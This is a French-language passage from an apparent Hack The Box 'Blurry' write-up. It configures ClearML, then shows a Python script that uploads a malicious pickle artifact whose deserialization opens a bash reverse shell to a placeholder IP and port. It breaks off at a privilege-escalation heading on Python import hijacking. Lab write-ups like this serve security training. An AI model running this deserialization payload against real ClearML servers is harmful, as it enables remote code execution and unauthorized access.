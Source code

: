 Un guide explique comment le configurer. Complétez la configuration comme demandé.

1. Installez `clearml`

```
pip install clearml
```

2. Exécutez la commande ci-dessous pour initialiser ClearML

```
clearml-init
```

3. Lorsque le message `Paste copied configuration here` apparaît, utilisez le code que vous avez généré après avoir cliqué sur `CREATE NEW CREDENTIALS`. Vous devez ajouter `api.blurry.htb` à votre fichier hosts autrement la configuration échouera.

![ClearML configuartion steps](/images/HTB-Blurry/clearml_config_steps.png)

Si la configuration est réussie, vous serez informé par des messages sur le terminal.

![ClearML successful configuration](/images/HTB-Blurry/ClearML_success_config.png)

4. Nous pouvons maintenant télécharger un artefact malveillant afin d'obtenir un reverse shell, après exécution du script ci-dessous, nous obtenons un shell sur notre listener en tant que `jippity` et trouvons le drapeau utilisateur dans `/home/jippity`.

```python
import pickle, os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('/bin/bash -c "/bin/bash -i >& /dev/tcp/IP/PORT 0>&1"',))

command = RunCommand()

from clearml import Task
task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"])
task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")
```

![Blurry user flag](/images/HTB-Blurry/blurry_user_flag.png)

## Elévation de Privilèges

Avec `sudo -l` nous apprenons que l'utilisateur `jippity` a la permission de lancer la commande `evaluate_model` sur n'importe quel fichier `.pth` dans le répertoire `/models` en tant que root sans fournir de mot de passe.

![Blurry sudo -l](/images/HTB-Blurry/sudo-l_cmd.png)

### Python Import hijacking (détournement d'importation)
